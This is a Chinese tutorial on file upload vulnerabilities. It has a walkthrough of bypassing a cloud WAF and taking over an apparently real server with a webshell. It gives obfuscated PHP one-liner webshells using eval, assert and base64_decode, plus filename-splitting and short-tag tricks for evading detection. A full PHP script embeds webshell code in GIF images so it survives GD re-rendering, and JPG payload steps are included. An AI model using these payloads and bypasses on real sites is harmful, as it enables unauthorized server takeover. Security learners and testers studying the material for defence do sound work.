## 简介
文件上传漏洞是指攻击者上传了当前web服务可执行的文件，导致web站点被攻击者控制，执行系统层的命令。通常上传的文件可能是PE文件，webshell，木马文件等等
## 漏洞成因
文件上传漏洞是由于程序员未对上传的文件进行严格的验证和过滤,而导致的用户可以越过其本身权限向服务器上上传可执行的动态脚本文件。“文件上传”本身没有问题，有问题的是文件上传后，服务器怎么处理、解释文件。如果服务器的处理逻辑做的不够安全,则会导致严重的后果。
## 漏洞挖掘场景

1. 前端存在上传业务
2. 命令注入重定向
3. 日志包含
4. PUT上传
5. 等等

## 上传条件

1. 上传的文件能被web服务器当成动态脚本来执行
2. 能够访问到上传的文件
3. 如果上传的脚本不能被服务器解析，通常会配合使用`文件包含`，`容器解析漏洞`来使文件成为动态脚本

## webshell 分类

- 单/少 功能木马
   - 能完成写入文件、列目录、执行系统命令等少量功能的webshell
- 逻辑木马
   - 利用系统逻辑漏洞或构造特殊代码，绕过访问控制或执行特殊功能的webshell（比如 php的uaf漏洞）
- 一句话木马
   - 可以在目标服务器上执行嗲吗，并和客户端（如菜刀、CKnife、冰蝎、蚁剑）进行交互的webshell
- 多功能木马
   - 根据目标网站语法，编写较多代码，并在服务器上执行，完成大量间谍功能的Webshell

其中一句话木马原理如下图所示：

客户端将代码通过特殊参数名（password），发送给放置在服务器上的一句话木马，一句话木马则在服务器上执行由客户端发来的代码，然后将执行结果返回给客户端，客户端接收结果之后，最后再将结果展示给用户。
## bypass案例
**声明该部分案例都是通过kun哥本人同意之后添加进来的（kun哥，前奇安信Ateam队员，我有微信**😍**）**
注册登录到某系统后，在多个文件上传点进行测试，发现进行的大是白名单验证，没法上传除了多媒体文件外的其他类型。最后在修改资料位置对头像上传位置抓包，可以看到还传入了图像裁剪的参数(后续的测试把x,y都设置为0，避免对图片产生额外影响):  
可以上传并返回路径，该路径可以通过拼接域名直接访问到：
 修改filename类型为txt，发现可以上传成功，说明该处上传没有对文件类型进行限制，是一个潜在的getshell点：   尝试修改文件类型为php，不出意外被阿里云WAF拦截了：  在之前的测试中，已经发现头像上传位置可以进行其他类型文件上传，但是测试php文件上传时被云WAF拦截了。对云WAF的绕过主要可以依靠数据包变形、分块、去除关键字特征等。
### 文件类型检测绕过
 测试将filename中的文件名用换行分隔即可绕过(从文件名中间找个位置，不是文件扩展名)  
### 文件内容检测绕过
WAF还会检测内容，如存在常见的<?php就会直接拦截，经过尝试，可以使用[短标签](https://www.php.net/manual/zh/language.basic-syntax.phptags.php)`<?=phpinfo();?>`、敏感函数替换加上传参分离得到payload `<?=@$_=$_REQUEST;call_user_func_array('assert',array($_[_]));?>`，这里服务端的`systemerror`是因为图像渲染出错的异常:

#### GD库渲染绕过
上面的图片在传到后台时会被php的gd库重新渲染，因为上传的文件重新下载回来md5校验对不上。将文件类型改成txt上传，查看响应包发现特征 `gd-jpeg v1`:

看来图片是被重新渲染了，使用了php扩展gd库中的`imagecreatefromjpeg()`，`imagecreatefromstring(),``imagejpeg()`等函数处理。这些函数在图片渲染过程中，其实存在部分原始数据没有被修改到，不同的图片类型渲染情况也不相同，主要看后端处理后是什么类型的图片特征，上面的图片从文件头JFIF和gd-jpeg看应该是用`imagejpeg()`生成的。这里对gd库的渲染绕过进行一些整理。
#### JPG二次渲染
使用脚本[jpg_payload.php](https://github.com/BlackFan/jpg_payload)来处理图片需要先在头像上传的位置上传一个正常的图片，然后再把渲染后的图片下载回来用脚本处理(脚本要求，最终图像的大小必须与原始图像相同)。脚本的原理是在将webshell编码成图像数据写入到图片的Scan Header之后，文件生成后使用gd库测试是否能正常渲染然后输出payload图片。

脚本使用前需要配置好PHP运行环境，直接到[PHP官网](https://www.php.net/downloads)，选择合适的包下载，这里选择的是Windows下的zip压缩包：  

 解压完成后，到目录中看到php.ini-*的文件，选择一个重命名为php.ini,然后在其中加入extension=ext/php_gd2.dll开启gd扩展：  

 之后就配置下PHP的环境变量，在jpg_payload.php中加入要渲染的代码：

`$miniPayload`可能需要多次构造，比如在最前面加字符，中间加注释，字母大写等等，经过许久的尝试，构造出以下两个可用的payload:  

 在JPEG文件格式中，shell代码会放在Scan Header (00 0C 03 01 00 02 11 03 11 00 3F 00)之后：


 在最终构造好的payload图片中看到shell数据确实是写在Scan Header之后的：  

 在burp中可以很方便的修改上传的文件，在之前的数据包右键菜单中选择从文件粘贴：  

 上传成txt观察响应，发现php代码没有被破坏：  

 改成PHP后上传，访问(没有出现语法错误或者解析错误，Deprecated是说不推荐用字符串参数来调用assert断言，因为用了call_user_func_array回调，参数1就是字符串assert)：  

然后测试shell执行情况，发现阿里云WAF对特征字符的拦截十分严格，执行`var_dump`，`phpinfo`马上就拦截，用PHP7特性执行`(phpinfo)()`回造成响应超时，应该还检测了响应数据。这里用一个没被拦截的函数`die()`输出数字来测试webshell执行情况：

可以看到成功执行了，说明shell还是可以用的，就是需要绕过流量特征检测。
这里想着用传递编码的字符到shell执行，但是始终会被拦截。没办法，只能从shell上下手，又经过一些免杀测试，准备好的基础免杀shell为`<?=@$_=$_POST;@eval(base64_decode($_[_]));`，经过不断的尝试，终于构造出可用的图片：

 最终payload(蚁剑中_是保留字符，所以密码修改为了d):  
```php
$miniPayload = '/sssdajkhsdajk*/<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);/*hsd*/@EVAL(($x));/*ajmjikloasdk*//*hsdajk*//*';
```

 蚁剑的编码器用的编码器是对所有参数都base64编码(之前的流量中有很明显的PHP执行代码)，返回数据也都base64：  

 配置编码解码：  

 发起的请求包如下：  

 最终也是使用蚁剑接管了该阿里云服务器：  


云WAF的流量绕过也可以通过真实IP或者其他解析到站点的域名，因为管理员可能没有对所有的域名和IP走云WAF，就可以只绕过上传php文件的拦截，后面的流量检测是没有的。最开始拿到shell也是走一个加速域名(shell后查看了图片渲染处的源码，为后续直接对阿里云的POC构造省下了好多事)，这里估计是开发想着所有流量都过云WAF会很慢，于是把很多静态资源放在了另外一个域名上，但是这个域名并没有受到云WAF保护，没有云WAF保护，利用上面的二次渲染绕过直接getshell：

#### GIF二次渲染
常见的方法是将GIF上传后的文件下载回来与源文件对比，找到未进行修改的部分插入PHP代码，但是操作起来很不方便。有没有类似JPG实现的自动脚本呢？在[一篇博客](https://blog.isec.pl/injection-points-in-popular-image-formats/)中发现了实现方法，原脚本将生成一个纯色的GIF图，将脚本修改后可以对任意GIF文件进行代码注入：
```php
<?php 
  // createGIFwithGlobalColorTable.php 
  $_file="example.gif"; 
  //保存的文件名 
	$_payload="00php /*123456789abcdefgh<?php 12345*
  /eval(\$_GET[1]);/*ijk*/eval(\$_REQUEST['11pass'])?>";
	// POC 
	$_width=200; 
	$_height=200; 
	if(strlen($_payload)%3!=0){ 
    echo "payload%3==0 !"; 
    exit(); 
  } 
	$im = imagecreate($_width, $_height); 
	// 创建新的gif图 
	$im = imagecreatefromstring(file_get_contents("SwipeTeachingCalloutImage.layoutdir-LTR.gif")); //使用提供的Gif图 
	$_hex=unpack('H*',$_payload); 
	$colors_hex=str_split($_hex[1], 6); 
	for($i=0; $i < count($colors_hex); $i++){ 
    $_color_chunks=str_split($colors_hex[$i], 2); 
    $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2])); 
    imagesetpixel($im,$i,1,$color); 
  } 
	imagegif($im,$_file); 
?>
```
 经过一番尝试，找到一个合适的GIF图片，并将PHP代码写入(Payload长度达到了64，还可以继续追加)：  

 然后将生成的example.gif文件使用GD库渲染得到新图exploit.gif：  
```php
<?php
	$gif = imagecreatefromgif('example.gif');
	imagegif($gif, 'exploit.gif');
	imagedestroy($gif);
?>
```
 重新渲染后，完全就是一样的GIF:  
